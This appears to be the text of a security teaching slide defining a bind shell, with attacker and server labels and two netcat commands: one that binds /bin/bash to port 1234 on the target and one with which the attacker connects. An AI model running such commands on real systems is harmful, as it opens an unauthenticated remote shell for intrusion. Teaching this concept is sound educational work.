

# What is Bind shell ?
A bind shell is set up on the target host and binds to a specific port to listens for an incoming connection from the attacker.
Attacker
Server

Attacker Connects to target on port 1234
 nc –lvp 1234 –e /bin/bash
 nc –v <Server IP> 1234